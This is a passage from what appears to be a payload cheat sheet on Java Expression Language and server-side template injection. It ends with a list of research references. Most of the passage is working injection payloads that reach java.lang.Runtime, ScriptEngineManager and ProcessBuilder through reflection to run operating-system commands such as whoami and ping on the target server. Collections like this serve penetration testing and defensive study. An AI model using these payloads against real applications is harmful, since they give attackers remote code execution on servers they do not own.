- Method using `java.lang.Runtime` #2

    ```java
    #{session.setAttribute("rtc","".getClass().forName("java.lang.Runtime").getDeclaredConstructors()[0])}
    #{session.getAttribute("rtc").setAccessible(true)}
    #{session.getAttribute("rtc").getRuntime().exec("/bin/bash -c whoami")}
    ```

- Method using `java.lang.Runtime` #3 - accessed with `invoke`

    ```java
    ${''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('COMMAND_HERE')}
    ```

- Method using `java.lang.Runtime` #3 - accessed with `javax.script.ScriptEngineManager`

    ```java
    ${request.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec(\\\"ping x.x.x.x\\\")"))}
    ```

- Method using `java.lang.ProcessBuilder`

    ```java
    ${request.setAttribute("c","".getClass().forName("java.util.ArrayList").newInstance())}
    ${request.getAttribute("c").add("cmd.exe")}
    ${request.getAttribute("c").add("/k")}
    ${request.getAttribute("c").add("ping x.x.x.x")}
    ${request.setAttribute("a","".getClass().forName("java.lang.ProcessBuilder").getDeclaredConstructors()[0].newInstance(request.getAttribute("c")).start())}
    ${request.getAttribute("a")}
    ```

## References

- [Server Side Template Injection – on the example of Pebble - Michał Bentkowski - September 17, 2019](https://research.securitum.com/server-side-template-injection-on-the-example-of-pebble/)
- [Server-Side Template Injection: RCE For The Modern Web App - James Kettle (@albinowax) - December 10, 2015](https://gist.github.com/Yas3r/7006ec36ffb987cbfb98)
- [Server-Side Template Injection: RCE For The Modern Web App (PDF) - James Kettle (@albinowax) - August 8, 2015](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)
- [Server-Side Template Injection: RCE For The Modern Web App (Video) - James Kettle (@albinowax) - December 28, 2015](https://www.youtube.com/watch?v=3cT0uE7Y87s)
- [VelocityServlet Expression Language injection - MagicBlue - November 15, 2017](https://magicbluech.github.io/2017/11/15/VelocityServlet-Expression-language-Injection/)
- [Bean Stalking: Growing Java beans into RCE - Alvaro Munoz - July 7, 2020](https://securitylab.github.com/research/bean-validation-RCE)
- [Bug Writeup: RCE via SSTI on Spring Boot Error Page with Akamai WAF Bypass - Peter M (@pmnh_) - December 4, 2022](https://h1pmnh.github.io/post/writeup_spring_el_waf_bypass/)
- [Expression Language Injection - OWASP - December 4, 2019](https://owasp.org/www-community/vulnerabilities/Expression_Language_Injection)
- [Expression Language injection - PortSwigger - January 27, 2019](https://portswigger.net/kb/issues/00100f20_expression-language-injection)
- [Leveraging the Spring Expression Language (SpEL) injection vulnerability (a.k.a The Magic SpEL) to get RCE - Xenofon Vassilakopoulos - November 18, 2021](https://xen0vas.github.io/Leveraging-the-SpEL-Injection-Vulnerability-to-get-RCE/)
- [RCE in Hubspot with EL injection in HubL - @fyoorer - December 7, 2018](https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html)
- [Remote Code Execution with EL Injection Vulnerabilities - Asif Durani - January 29, 2019](https://www.exploit-db.com/docs/english/46303-remote-code-execution-with-el-injection-vulnerabilities.pdf)
